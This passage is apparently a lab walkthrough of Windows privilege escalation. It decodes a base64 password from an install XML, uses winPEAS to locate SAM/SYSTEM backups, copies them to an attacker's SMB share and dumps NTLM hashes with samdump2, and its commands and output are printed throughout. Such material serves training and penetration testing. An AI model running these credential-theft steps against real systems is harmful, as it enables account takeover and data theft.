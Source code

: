 ```powershell
<Password>                    <Value>cGFzc3dvcmQxMjM=</Value>                    <PlainText>false</PlainText>                </Password>

-- Snip --
```

3. Convert base64 found and use creds.
```bash
┌──(kali㉿kali)-[~/Training]
└─$ echo -n cGFzc3dvcmQxMjM= | base64 -d
password123┌──(kali㉿kali)-[~/Training]
```

### SAM/SYSTEM Backups
The SAM and SYSTEM files are located in the C:\Windows\System32\config directory. The files are locked while Windows is running. Backups of the files may exist in the C:\Windows\Repair or C:\Windows\System32\config\RegBack directories.

1. Use winpeas to locate any SAM/SYSTEM backups.
> winpeas.exe quiet filesinfo
```powershell
C:\PrivEsc\tools>winpeasany.exe quiet filesinfo
winpeasany.exe quiet filesinfo

-- Snip --

  [+] Looking for common SAM & SYSTEM backups()
    C:\Windows\repair\SAM
    C:\Windows\repair\SYSTEM

-- Snip --
```

2. copy these backups to kali machine.
> copy C:\Windows\Repair\SAM \\\192.168.1.164\tools\   
> copy C:\Windows\Repair\SYSTEM \\\192.168.1.164\tools\   
```powershell
C:\PrivEsc\tools>copy C:\Windows\Repair\SAM \\192.168.1.164\tools\
copy C:\Windows\Repair\SAM \\192.168.1.164\tools\
        1 file(s) copied.

C:\PrivEsc\tools>copy C:\Windows\Repair\SYSTEM \\192.168.1.164\tools\
copy C:\Windows\Repair\SYSTEM \\192.168.1.164\tools\
        1 file(s) copied.

```

3. Extract the password hashes 
> samdump2 SYSTEM SAM
```bash
┌──(kali㉿kali)-[~/Training]
└─$ samdump2 SYSTEM SAM 
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* :503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* :504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
IEUser:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
:1002:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
:1003:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
admin:1004:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::
```
